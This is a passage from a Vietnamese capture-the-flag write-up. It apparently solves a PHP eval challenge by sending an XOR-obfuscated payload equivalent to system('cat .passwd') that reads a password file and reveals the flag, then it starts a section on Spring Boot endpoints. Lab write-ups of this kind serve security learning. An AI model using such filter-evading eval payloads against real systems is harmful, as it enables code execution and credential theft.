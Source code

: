     ![1](img/55/Screenshot%20from%202023-02-01%2008-39-50.png)

- `cat .passwd` ta được kết quả:

  - Payload `(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^'#').('!'^'@').('^'^'*').('~'^'^').'.'.('^'^'.').('!'^'@').('^'^'-').('^'^'-').('^'^')').('@'^'$'))` (Tương đương `(system)(cat .passwd)`)

- Kết quả

  ![1](img/55/Screenshot%20from%202023-02-01%2008-41-09.png)

```
Flag: M!xIng_PHP_w1th_3v4l_L0L
```

# 56. 	Java - Spring Boot

- Tìm `Endpoints` trong tài liệu đính kèm, ta tìm được các list endpoints có thể hữu dụng:
